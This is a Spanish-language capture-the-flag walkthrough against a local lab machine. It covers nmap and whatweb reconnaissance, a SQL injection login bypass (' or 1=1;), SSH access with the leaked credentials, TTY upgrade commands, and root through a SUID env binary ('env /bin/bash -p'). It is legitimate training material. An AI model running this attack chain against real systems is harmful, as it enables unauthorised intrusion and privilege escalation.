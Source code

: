 # Etapa de Reconocimiento

## Nmap

### 1.er Escaneo

Usamos la herramienta *nmap* para descubrir servicios que puedan estar corriendo.
```ruby
nmap -p- --open --min-rate 5000 -sS -vvv 172.17.0.2 -n -Pn -oG allPorts
```

#### Parámetros del Escaneo

| Parametro       | Motivo                                      |
| --------------- | ------------------------------------------- |
| -p-             | Escaneo de todo rango de puertos            |
| --open          | Filtrar solo por los puertos abiertos       |
| --min-rate 5000 | No permitir paquetes mas lentos que 5000p/s |
| -sS             | Usar el metodo TCP-SYN                      |
| -vvv            | Ver la informacion durante el escaneo       |
| 172.17.0.2      | La IP                                       |
| -n              | No aplicar Resolucion DNS                   |
| -Pn             | Deshabilitar el descubrimiento de Host      |
| -oG allPorts    | Exportar el escaneo en formato Grepeable    |

#### Output
Vemos que la máquina tiene abierto los puertos *22,80*, en los que concuerdan los servicios *SSH y HTTP*.
```ruby
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

## Reconocimiento WEB
### Whatweb
Usaremos el binario *whatweb $url* para ver información detallada de los servicios que puedan estar corriendo por detrás.
```ruby
whatweb http://172.17.0.2
```

Vemos que tiene una *PasswordField* y el título de la página es *Iniciar Sesión*, podemos intuir que tiene algún login.
```ruby
http://172.17.0.2 [200 OK] Apache[2.4.52], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[172.17.0.2], PasswordField[password], Title[Iniciar Sesión]
```

### Vista de la WEB
Vemos que sí tiene un login.

![](../../images/Pasted%20image%2020240601180703.png)

# Explotación
## SQLi
Al tener un login, lo primero que se prueba es un *SQLi* para intentar evadir el login.

![](../../images/Pasted%20image%2020240601181435.png)

En el campo USER vamos a insertar `${texto}' or 1=1;`, lo que queremos es que el resultado de la petición sea *True*:

Nosotros ahora estamos enviando esta petición:
`SELECT * FROM Users WHERE User = ${texto}' or 1=1;` (Por ejemplo)

Vemos que va a comprobar si hay un usuario que sea existente con el nombre *${texto}*, seguramente no, pero luego va a comprobar si *1=1*, en este caso sí.

La primera es *falsa* y la segunda es *verdadera*:

*falso* **or** *verdadero* = *verdadero*

Nos permite la evasión del login.

## SSH
Vemos un *Usuario* y una *Contraseña*, por lo tanto, intentaremos entrar por *ssh* (Servicio que sabemos que está corriendo).

![](../../images/Pasted%20image%2020240601183040.png)

Usamos *sshpass* para no tener que introducir la contraseña luego.

![](../../images/Pasted%20image%2020240601183504.png)

**¡¡Tenemos acceso al sistema!!**

### Tratamiento de la TTY

Es muy recomendable hacer un tratamiento de la TTY para poder hacer *[ ^L ]*, *[ ^C ]*, etc.
```ruby
script /dev/null -c bash
```

```ruby
stty raw -echo; fg
```

```ruby
[^Z]
```

```ruby
reset xterm
```

```ruby
export SHELL=bash && export TERM=xterm
```

## Escalada de Privilegios

### Búsqueda de Vulnerabilidades

Vamos a probar a buscar ficheros con *SUID* y usuario propietario *root*.
```ruby
find / -perm -4000 -user root 2>/dev/null
```

```r
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/umount
/usr/bin/env
/usr/bin/gpasswd
```

De todos los binarios, el **env** es vulnerable si tiene el *SUID*.

Se puede ver fácilmente en: https://gtfobins.github.io/gtfobins/env/

### Root
En esta misma página nos indica como podemos escalar privilegios con este binario:
```r
env /bin/bash -p
```
![](../../images/Pasted%20image%2020240601185157.png)

**¡¡Ya tenemos privilegios ROOT!!**